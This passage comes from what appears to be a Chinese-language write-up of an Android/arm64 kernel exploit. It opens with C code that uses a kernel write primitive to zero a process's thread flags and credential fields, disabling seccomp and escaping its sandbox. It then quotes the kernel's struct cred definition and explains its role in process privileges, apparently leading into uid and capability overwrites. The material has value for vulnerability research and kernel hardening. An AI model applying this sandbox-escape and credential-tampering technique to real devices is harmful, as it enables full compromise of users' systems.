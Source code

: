 ```c
    // clear the TIF_SECCOMP flag and everything else :P (feel free to modify this to just clear the single flag)
    // arch/arm64/include/asm/thread_info.h:#define TIF_SECCOMP 11
    kernel_write_ulong(current_ptr + OFFSET__task_struct__thread_info__flags, 0);
    kernel_write_ulong(current_ptr + OFFSET__task_struct__cred + 0xa8, 0);
    kernel_write_ulong(current_ptr + OFFSET__task_struct__cred + 0xa0, 0);

    if (prctl(PR_GET_SECCOMP) != 0) {
      printf("Failed to disable SECCOMP!\n");
      exit(1);
    } else {
      printf("SECCOMP disabled!\n");
    }
  } else {
    printf("SECCOMP is already disabled!\n");
  }

  // Grant: At this point, we are free from our jail (if all went well)
}
```
##### 5.2.1 DAC
> Discretionary Access Control——自由访问控制
- 获取内核读写权限的过程中我们得到了task_struct的指针，而task_struct是linux内核中被称为进程描述符的结构体，它包含了一个进程中的各种信息，其中的成员变量cred是和该进程权限有关的结构体，定义如下：
```c
struct cred {
    atomic_t    usage;
#ifdef CONFIG_DEBUG_CREDENTIALS
    atomic_t    subscribers;    /* number of processes subscribed */
    void        *put_addr;
    unsigned    magic;
#define CRED_MAGIC  0x43736564
#define CRED_MAGIC_DEAD 0x44656144
#endif
    kuid_t      uid;        /* real UID of the task */
    kgid_t      gid;        /* real GID of the task */
    kuid_t      suid;       /* saved UID of the task */
    kgid_t      sgid;       /* saved GID of the task */
    kuid_t      euid;       /* effective UID of the task */
    kgid_t      egid;       /* effective GID of the task */
    kuid_t      fsuid;      /* UID for VFS ops */
    kgid_t      fsgid;      /* GID for VFS ops */
    unsigned    securebits; /* SUID-less security management */
    kernel_cap_t    cap_inheritable; /* caps our children can inherit */
    kernel_cap_t    cap_permitted;  /* caps we're permitted */
    kernel_cap_t    cap_effective;  /* caps we can actually use */
    kernel_cap_t    cap_bset;   /* capability bounding set */
    kernel_cap_t    cap_ambient;    /* Ambient capability set */
#ifdef CONFIG_KEYS
    unsigned char   jit_keyring;    /* default keyring to attach requested
                     * keys to */
    struct key __rcu *session_keyring; /* keyring inherited over fork */
    struct key  *process_keyring; /* keyring private to this process */
    struct key  *thread_keyring; /* keyring private to this thread */
    struct key  *request_key_auth; /* assumed request_key authority */
#endif
#ifdef CONFIG_SECURITY
    void        *security;  /* subjective LSM security */
#endif
    struct user_struct *user;   /* real user ID subscription */
    struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
    struct group_info *group_info;  /* supplementary groups for euid/fsgid */
    struct rcu_head rcu;        /* RCU deletion hook */
```